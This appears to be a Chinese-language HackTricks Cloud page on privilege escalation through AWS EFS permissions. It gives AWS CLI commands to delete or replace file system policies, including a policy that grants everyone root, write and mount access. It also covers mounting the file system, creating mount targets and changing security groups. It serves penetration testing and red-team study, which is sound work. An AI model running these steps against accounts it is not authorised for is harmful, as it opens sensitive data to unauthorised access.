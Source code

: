 # AWS - EFS Privesc

{% hint style="success" %}
学习和实践 AWS 黑客技术：<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks 培训 AWS 红队专家 (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
学习和实践 GCP 黑客技术：<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks 培训 GCP 红队专家 (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>支持 HackTricks</summary>

* 查看 [**订阅计划**](https://github.com/sponsors/carlospolop)!
* **加入** 💬 [**Discord 群组**](https://discord.gg/hRep4RUj7f) 或 [**telegram 群组**](https://t.me/peass) 或 **关注** 我们的 **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github 仓库提交 PR 分享黑客技巧。

</details>
{% endhint %}

## EFS

更多关于 EFS 的 **信息**：

{% content-ref url="../aws-services/aws-efs-enum.md" %}
[aws-efs-enum.md](../aws-services/aws-efs-enum.md)
{% endcontent-ref %}

请记住，为了挂载 EFS，您需要在 EFS 被暴露的子网络中并且拥有访问权限（安全组）。如果发生这种情况，默认情况下，您将始终能够挂载它，但是，如果它受到 IAM 策略的保护，您需要拥有此处提到的额外权限才能访问它。

### `elasticfilesystem:DeleteFileSystemPolicy`|`elasticfilesystem:PutFileSystemPolicy`

拥有任何这些权限的攻击者可以 **更改文件系统策略** 以 **授予您访问权限**，或仅仅 **删除它** 以便 **授予默认访问**。

要删除策略：
```bash
aws efs delete-file-system-policy \
--file-system-id <value>
```
要更改它：
```json
aws efs put-file-system-policy --file-system-id <fs-id> --policy file:///tmp/policy.json

// Give everyone trying to mount it read, write and root access
// policy.json:
{
"Version": "2012-10-17",
"Id": "efs-policy-wizard-059944c6-35e7-4ba0-8e40-6f05302d5763",
"Statement": [
{
"Sid": "efs-statement-2161b2bd-7c59-49d7-9fee-6ea8903e6603",
"Effect": "Allow",
"Principal": {
"AWS": "*"
},
"Action": [
"elasticfilesystem:ClientRootAccess",
"elasticfilesystem:ClientWrite",
"elasticfilesystem:ClientMount"
],
"Condition": {
"Bool": {
"elasticfilesystem:AccessedViaMountTarget": "true"
}
}
}
]
}
```
### `elasticfilesystem:ClientMount|(elasticfilesystem:ClientRootAccess)|(elasticfilesystem:ClientWrite)`

拥有此权限的攻击者将能够**挂载 EFS**。如果默认情况下没有给予所有可以挂载 EFS 的人写权限，他将只有**读取访问权限**。
```bash
sudo mkdir /efs
sudo mount -t efs -o tls,iam  <file-system-id/EFS DNS name>:/ /efs/
```
额外权限 `elasticfilesystem:ClientRootAccess` 和 `elasticfilesystem:ClientWrite` 可以在文件系统挂载后用于 **写入** 文件系统内部，并以 **root** 身份 **访问** 该文件系统。

**潜在影响：** 通过在文件系统中定位敏感信息进行间接权限提升。

### `elasticfilesystem:CreateMountTarget`

如果攻击者在 **子网络** 中，且 **没有挂载目标** 存在于 EFS，他可以利用此权限 **在他的子网络中创建一个**。
```bash
# You need to indicate security groups that will grant the user access to port 2049
aws efs create-mount-target --file-system-id <fs-id> \
--subnet-id <value> \
--security-groups <value>
```
**潜在影响：** 通过在文件系统中定位敏感信息间接提升权限。

### `elasticfilesystem:ModifyMountTargetSecurityGroups`

在攻击者发现 EFS 在他的子网络中有挂载目标但**没有安全组允许流量**的情况下，他可以**通过修改所选安全组来更改这一点**：
```bash
aws efs modify-mount-target-security-groups \
--mount-target-id <value> \
--security-groups <value>
```
**潜在影响：** 通过在文件系统中定位敏感信息实现间接权限提升。

{% hint style="success" %}
学习和实践 AWS 黑客技术：<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks 培训 AWS 红队专家 (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
学习和实践 GCP 黑客技术：<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks 培训 GCP 红队专家 (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>支持 HackTricks</summary>

* 查看 [**订阅计划**](https://github.com/sponsors/carlospolop)!
* **加入** 💬 [**Discord 群组**](https://discord.gg/hRep4RUj7f) 或 [**Telegram 群组**](https://t.me/peass) 或 **关注** 我们的 **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub 仓库提交 PR 来分享黑客技巧。

</details>
{% endhint %}
